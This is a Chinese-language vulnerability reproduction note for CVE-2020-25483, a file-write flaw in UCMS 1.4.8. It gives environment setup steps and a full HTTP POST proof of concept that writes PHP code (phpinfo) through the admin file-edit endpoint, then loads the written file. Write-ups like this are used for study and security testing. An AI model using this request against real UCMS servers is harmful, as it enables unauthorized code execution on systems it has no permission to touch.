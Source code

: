 # UCMS 文件上传漏洞 CVE-2020-25483

# UCMS 文件上传漏洞 CVE-2020-25483

## 漏洞描述

UCMS v1.4.8版本存在安全漏洞，该漏洞源于文件写的fopen()函数存在任意命令执行漏洞，攻击者可利用该漏洞可以通过该漏洞访问服务器。

## 环境搭建

到官网http://uuu.la/下载源码（http://uuu.la/uploadfile/file/ucms_1.4.8.zip），解压到web目录，访问[http:///install/index.php](http://127.0.0.1/opensis/install/index.php)进行安装。

访问/ucms/login.php，显示正常及环境安装成功。

![20221206164828](images/20221206164828.png)

## 漏洞复现

登录账户

![](images/20221206164829.png)

poc：

访问/ucms/index.php?do=sadmin_fileedit&dir=/&file=1.php抓包。

写入php代码，发送。

```
POST /ucms/index.php?do=sadmin_fileedit&dir=/&file=1.php HTTP/1.1

Host: ucms.com

Content-Length: 58

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://ucms.com

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36 Edg/87.0.664.41

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://ucms.com/ucms/index.php?do=sadmin_fileedit&dir=/&file=CNVD.php

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Cookie: admin_213f42=admin; psw_213f42=0ef8fa2c997f64b78cde98b6c7c9cc0a; token_213f42=78012aac

Connection: close


uuu_token=78012aac&co=%3C%3Fphp+phpinfo%28%29%3F%3E&pos=17
```

get /1.php

![20221206165017](images/20221206165017.png)

